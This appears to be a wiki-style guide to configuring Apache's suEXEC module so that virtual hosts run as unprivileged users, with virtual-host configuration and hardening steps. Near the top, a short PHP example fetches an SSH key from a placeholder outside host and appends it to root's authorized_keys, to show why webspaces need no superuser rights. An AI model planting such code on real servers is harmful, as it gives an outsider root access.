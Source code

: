 This document describes how to use Apache's suEXEC module in order to have virtual hosts running as a unprivileged user. Generally it's good practice not to let any kind of webspace have superuser privileges like this rather brutal PHP example shows:

```
   <?php
     # of course this link doesn't lead anywhere
     $rsa_key = file('http://yourhost.homeip.net/id_rsa.pub');
     exec("cat ${rsa_key[[0]]} >>/root/.ssh/authorized_keys");
   ?>

```

You get the point, do you? To prevent this, never let any virtual host have write access anywhere but in its own home directory or DocumentRoot. Unfortunately this method requires Apache to run as superuser in order to be able to become another user but it's not a big deal since you do not need to run in the default DocumentRoot as superuser too.

You should also consider using suEXEC if you intend to have several FTP accounts pointing to those webspaces which need write permissions while the files still can be read by Apache.

Beware, though, that it is a security risk when the webserver can write to the php files, like when you have an FTP user website1 and the site runs as website1 as well. Code is often injected in PHP files such cases. It is far too common for self-upgradable or installable PHP software to require this permission model, without informing the user of the risk.

## Contents

*   [1 Prerequisites](#Prerequisites)
*   [2 Adding the suEXEC module to Apache](#Adding_the_suEXEC_module_to_Apache)
*   [3 Setting up a virtual Host to use suEXEC](#Setting_up_a_virtual_Host_to_use_suEXEC)
*   [4 "Disabling" default DocumentRoot](#.22Disabling.22_default_DocumentRoot)
*   [5 Finishing up](#Finishing_up)
*   [6 References](#References)

## Prerequisites

*   you should be familiar with basic configuration of Apache
    *   especially virtual hosts
*   superuser access to the target box
*   knowledge about adding users
*   can work with pacman

## Adding the suEXEC module to Apache

*   load the suEXEC module in `/etc/httpd/conf/httpd.conf` like this:

```
LoadModule suexec_module        lib/apache/mod_suexec.so

```

*   make sure Apache's default DocumentRoot does not run as superuser either!

```
User http
Group http

```

## Setting up a virtual Host to use suEXEC

One way to do it is directly in `/etc/httpd/conf/httpd.conf` but I suggest to use a separate file if you intend to create more than just a couple of virtual hosts. Either way, a virtual host that is supposed to use suEXEC may look something like this:

```
<VirtualHost 192.168.0.1:80>
        ServerName myhost
        ServerAlias  myhost.localdomain
        # this is where requests for / go
        DocumentRoot /home/www/vhosts/myhost.localdomain/htdocs

        # here you tell which user (myhost) and group (ftponly) Apache should use
        SuexecUserGroup myhost ftponly

        # the following are optional but might be of use for you
        ScriptAlias /cgi-bin/ /home/www/vhosts/myhost.localdomain/htdocs/cgi-bin
        php_admin_value open_basedir /home/www/vhosts/myhost.localdomain/htdocs
        php_admin_value upload_tmp_dir  /home/www/vhosts/myhost.localdomain/tmp
        # Safe mode will be removed as of PHP 6\. You may want to not enable it.
        php_admin_flag safe_mode On
        ErrorDocument 404 /home/www/vhosts/myhost.localdomain
        <Directory "/home/www/vhosts/myhost.localdomain/htdocs">
                AllowOverride None
                Order allow,deny
                Allow from all
                Options +SymlinksIfOwnerMatch +Includes
        </Directory>
</VirtualHost>

```

Note that we set upload_tmp_dir to a folder that is outside the document root of your web site (not `/home/www/vhosts/myhost.localdomain/htdocs/tmp`). It should also be not readable or writable by any other system users. This is for security reasons: this way it cannot be modified or overwritten while PHP is processing it.

## "Disabling" default DocumentRoot

To further harden your setup you can disable the default *DocumentRoot* in order to not have Apache execute anything as the superuser itself runs as. This procedure does not really disable it, rather points it somewhere where it's not remotely accessible anymore. It can be easily achieved by replacing your default *ServerName* with the following:

```
ServerName localhost:80

```

## Finishing up

Every time you change default configuration parameters you need to [restart](/index.php/Daemons#Restarting "Daemons") **httpd** (Apache) to make them take effect.

## References

*   more in depth information about suEXEC: [http://httpd.apache.org/docs/suexec.html](http://httpd.apache.org/docs/suexec.html)
*   same about VirtualHosts: [http://httpd.apache.org/docs/vhosts/index.html](http://httpd.apache.org/docs/vhosts/index.html)